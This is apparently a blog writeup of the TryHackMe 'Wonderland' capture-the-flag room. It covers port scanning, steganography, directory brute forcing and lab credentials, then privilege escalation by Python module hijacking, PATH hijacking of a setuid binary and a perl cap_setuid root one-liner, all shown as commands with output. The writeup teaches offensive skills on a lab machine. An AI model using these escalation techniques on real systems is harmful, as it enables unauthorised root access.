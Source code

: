 ```yaml
---
layout: default
title : Wonderland - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[Wonderland](https://tryhackme.com/room/wonderland) Writeup

## Recon :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
Nmap scan report for 10.10.252.9
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
```
Turns out, there is a files hidden inside that says this :

```
follow the r a b b i t
```
Didn't understand at first, but when i brute forced directoris i get the idea :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ ffuf -c -u http://10.10.252.9/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

The files was pointing to a path in the browser :

```
http://10.10.252.9/r/a/b/b/i/t/
```

Once i checked the code source i found a hidden text, hidding alice's SSH creds :

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

## Priv Esc :

After some enumeration, i found out that the `/root/` is accessible by everyone but read permission was not given on the other hand execute permission was present, so we can get the `user.txt`

#### Rabbit User :

in Alice home directory we can find a script that basically import the random module.

So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.

```bash
alice@wonderland:~$ cat random.py 
import os

os.system("/bin/bash")
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

#### Hatter User :

In `/home/rabbit` we can see a setuid binary, after examining the file, we can see that `date` is getting executed without pecifying an absolute path :

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :

```bash
rabbit@wonderland:/tmp$ cat date 
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
```
Inside his directory we can find his ssh credentials :

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

#### Root :

After some enumeration, linpeas showed something intresting :

```bash
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Looks like `perl` have this capability `cap_setuid+ep` and that we can abuse, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) :

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami; id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](bvr0n.github.io/)

<br>
